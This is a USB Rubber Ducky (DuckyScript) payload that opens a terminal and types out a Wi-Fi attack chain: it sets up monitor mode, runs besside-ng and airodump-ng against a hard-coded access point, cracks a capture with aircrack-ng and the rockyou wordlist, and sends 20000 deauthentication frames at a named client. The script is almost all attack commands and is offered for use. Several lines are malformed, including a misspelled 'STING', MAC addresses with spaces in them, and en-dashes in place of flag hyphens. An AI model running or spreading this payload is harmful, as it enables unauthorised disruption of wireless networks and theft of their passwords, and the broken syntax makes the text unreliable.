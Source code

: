 # Rubberducky-Payloads-Script

DELAY 6000
ALT F2
DELAY 4000
STRING qterminal
DELAY 1000
ENTER
DELAY 6000
STRING cd Desktop
DELAY 1000
ENTER
DELAY 1000
STING sudo screen
DELAY 1000
ENTER
DELAY 1000
STRING sudo iwconfig
DELAY 1000
ENTER
DELAY 1000
STRING sudo airmon-ng start wlan1
DELAY 1000
ENTER
DELAY 1000
STRING sudo iwconfig wlan1mon
DELAY 1000
ENTER
DELAY 1000
STRING sudo airmon-ng start wlan1mon
DELAY 1000
ENTER
DELAY 1000
STRING sudo airodump-ng wlan1mon
DELAY 1000
ENTER
DELAY 6000
CTRL
STRING c
DELAY 1000
STRING sudo besside-ng -b E2 : 46 : 35 : 39 : FE : 7F wlan1mon
DELAY 10000
ENTER
DELAY 1000
STRING sudo aircrack-ng -w rockyou.txt wpa.cap
DELAY 1000
ENTER
DELAY 1000
STRING sudo airodump-ng –channel 5 –bssid E2 : 46 : 35 : 39 : FE : 7F wlan1mon
DELAY 10000
ENTER
DELAY 6000
STRING sudo aireplay-ng -–ignore -negative-one -–deauth 20000 –a E2 : 46 : 35 : 39 : FE : 7F  –c 30 : 24 : 32 : 69 : E2 : 0E wlan1mon
DELAY 1000
ENTER
DELAY 20000
CTRL 
STRING c
